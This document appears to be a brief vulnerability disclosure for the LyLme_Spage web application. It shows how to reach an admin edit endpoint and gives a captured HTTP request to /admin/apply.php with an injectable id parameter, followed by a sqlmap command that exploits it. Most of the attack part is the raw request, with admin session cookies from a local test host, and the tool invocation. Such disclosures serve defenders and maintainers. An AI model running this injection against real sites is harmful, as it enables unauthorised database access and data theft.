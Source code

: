 # LyLme_Spage_2

首先在http://ip/apply/下发起一个申请
Start by making an application at http://ip/apply/

![image](https://github.com/user-attachments/assets/247ddda6-d426-47ae-9d1f-60725ccd6b3e)

后台点击收录管理的编辑功能
Background click included management editing function
![image](https://github.com/user-attachments/assets/cba8704f-7f66-462f-a570-bb3a7f7f7f72)

GET /admin/apply.php?set=edit&id=* HTTP/1.1
Host: 127.0.0.1:9998
sec-ch-ua: "Not=A?Brand";v="99", "Chromium";v="118"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9998/admin/apply.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_token=90d7M%2F3WDbztaftquNBfPRbNjPw3LxjDKcUaDvO7bEYpzHRRwwPyLNeT0td94g7p9w%2FXL0yfP9yV79VFuXdofmtlOg; BRPcM_admin_username=6876tBBUp5geSxCQN5sA1iKcxHKWIYz21qWkazG8S7yeLg; BRPcM_siteid=d932okj60sk0B9TkqM1wpAl87Z7cVJGoQaDRLspG; BRPcM_userid=f73dmCvThxA-y9q6p7E4mTCO1Yu7GN2Md5i5VRay; BRPcM_admin_email=d4adXnvKveOWi9fo2VEdwAuaB8F34r9gqTCJ-An7Vr_H5Pge; BRPcM_sys_lang=95b7Z8OobH3UEBHG6reEsIAHxg3si_OotB0pwqWUH0FmZg; JSESSIONID=ZCgZNzqIkXhtv3WhzYFl5fjxcB9DdC4id5mxh0O1; PHPSESSID=qkk1eisjp2p17ce7tll9tfq6vb; admin_token=c5f7pAlNpu4s4xQllufPvMzOK6dR6J2Z0TkaFIgtOFzg1VKSltZq614l0Nc7mTL2SmmcluK6%2FUhwXZFDZ4UROQNqGg
Connection: close

python sqlmap.py -r D:\TestData\sql6.txt --dbms mysql
![image](https://github.com/user-attachments/assets/c74bd6a2-aeb0-4f1a-8b0b-313db05965e0)


